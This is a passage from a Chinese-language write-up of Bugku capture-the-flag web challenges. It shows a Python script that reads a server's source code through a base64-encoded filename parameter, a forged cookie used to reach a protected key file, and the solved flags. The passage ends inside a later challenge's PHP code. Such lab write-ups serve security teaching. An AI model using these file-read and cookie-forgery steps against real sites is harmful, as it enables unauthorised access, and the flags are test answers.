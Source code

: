   ```python
  print(s.post(url=url,data=data).content.decode())
  ```
- KEY{111dd62fcd377076be18a}

## cookies欺骗
打开网址 url=http://123.206.87.240:8002/web11/index.php?line=&filename=a2V5cy50eHQ=
- 好像有base64 解码得`keys.txt`
- 尝试用filename访问index.php（原url使用base64，这也将index.php进行编码`aW5kZXgucGhw`
- 构造 http://123.206.87.240:8002/web11/index.php?line=1&filename=aW5kZXgucGhw
- 显示信息切换行数都有 写脚本获取全部代码
  ```python 
  import requests
  a=30
  for i in range(a):
      url="http://123.206.87.240:8002/web11/index.php?line="+str(i)+"&filename=aW5kZXgucGhw" 
      s=requests.get(url)
      print s.text
  ```
得到源代码
  ```php
  <?php
  error_reporting(0);
  $file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");
  $line=isset($_GET['line'])?intval($_GET['line']):0;
  if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");
  $file_list = array(
  '0' =>'keys.txt',
  '1' =>'index.php',
  );
  if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){
  $file_list[2]='keys.php';
  }
  if(in_array($file, $file_list)){
  $fa = file($file);
  echo $fa[$line];
  }
  ?>
  ```
- 阅读得知cookie margin=margin
- 抓包raw加上Cookie: margin=margin 修改filename=a2V5cy5waHA=  然后go
- KEY{key_keys}

## never give up
url=http://123.206.87.240:8006/test/hello.php
显示：never never never give up !!! 
- 源码提1p.html 访问 123.206.87.240:8006/test/1p.html结果跳转bugku论坛
- 看一下这1p.html源码 view-source:http://123.206.87.240:8006/test/1p.html
- Words变量的值先url解码，再base64解码，再url解码
```php
  ";if(!$_GET['id'])
{
    header('Location: hello.php?id=1');
    exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
    echo 'no no no no no no no';
    return ;
}
$data = @file_get_contents($a,'r');
```
